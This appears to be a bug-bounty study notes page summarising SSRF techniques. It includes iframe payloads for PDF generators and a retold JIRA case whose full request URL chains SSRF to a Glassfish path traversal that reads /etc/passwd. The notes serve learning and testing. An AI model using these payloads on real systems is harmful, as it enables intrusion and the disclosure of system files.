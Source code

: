 ----

## Story 5-- Owning the Clout


<BR>
![ima](https://miro.medium.com/max/1400/1*nud0-lia9tq3sqQge4z6zA.png)




----

-> Nahamsec SSRF

Link :- https://www.youtube.com/watch?v=o-tL9ULF0KI

PDF+Xss =SSRF

```
<iframe src="http://host:port">
```

if there is customisation in pdf gen means it uses the css so 

```
</style><iframe src="http://host:port">
```    

-> DNS Rebinding

<br></br>
## Some Extra        

->  SSRF in JIRA

Link :- https://medium.com/@zain.sabahat/exploiting-ssrf-like-a-boss-c090dc63d326         

He found one subdomain running jira instance .  (JIRA version was vuln to ssrf he checked)
https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://google.com
He tried simple ssrf exploit metadata nothing worked .
He put 127.0.0.1 port 8080 it returned 
![this](https://miro.medium.com/max/1294/1*sUm9KeCYSRN3_gqvnewSLA.png)

He tried port no 4848
![this](https://miro.medium.com/max/1453/1*w7PELZYC2FzA2ZXWikdVSg.png)

he searched exploit for glassfish  https://www.exploit-db.com/exploits/39241/

after that he put 

>https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://127.0.0.1:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd

but did not work . He realised it is encoded so we need to transfer double encoded in url. then success 
